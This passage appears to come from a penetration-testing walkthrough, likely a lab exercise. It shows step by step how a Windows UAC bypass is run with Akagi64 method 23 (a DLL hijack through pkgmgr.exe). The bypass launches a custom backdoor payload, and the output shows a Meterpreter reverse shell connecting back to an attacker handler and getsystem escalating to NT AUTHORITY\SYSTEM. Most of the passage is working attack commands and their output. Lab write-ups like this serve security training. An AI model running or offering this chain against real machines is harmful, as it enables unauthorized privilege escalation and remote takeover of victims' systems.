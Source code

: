 ```bash
```

**Excellent!** Both files uploaded successfully:
- **Akagi64.exe:** 199,168 bytes (UAC bypass tool)
- **backdoor.exe:** 73,802 bytes (our custom payload)

---

### **Step 11: Execute UAC Bypass (Advanced Privilege Escalation)**

**What We're Doing:** Using the Akagi64 tool to bypass Windows User Account Control and run our payload with SYSTEM privileges.

#### **Command Used:**
```bash
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

#### **What This Command Means:**
- `Akagi64.exe` = UAC bypass tool
- `23` = Method number (DLL Hijacking technique)
- `Full path to backdoor.exe` = The payload to run with elevated privileges

#### **Technical Details of Method 23:**
- **Author:** Leo Davidson derivative
- **Type:** DLL Hijack
- **Method:** IFileOperation
- **Target:** \system32\pkgmgr.exe
- **Component:** DismCore.dll
- **Implementation:** ucmDismMethod

#### **What Happened:**
```bash
C:\Users\admin\AppData\Local\Temp>Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
```

**In our handler (the second Metasploit window):**
```bash
[*] Started reverse TCP handler on 10.10.31.2:4444
[*] Sending stage (176198 bytes) to 10.0.22.143
[*] Meterpreter session 1 opened (10.10.31.2:4444 → 10.0.22.143:49272) at 2024-07-09 10:57:23 +0530

meterpreter >
```

#### **🚀 SUCCESS! UAC Bypassed!**

Now let's check our privileges:
```bash
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
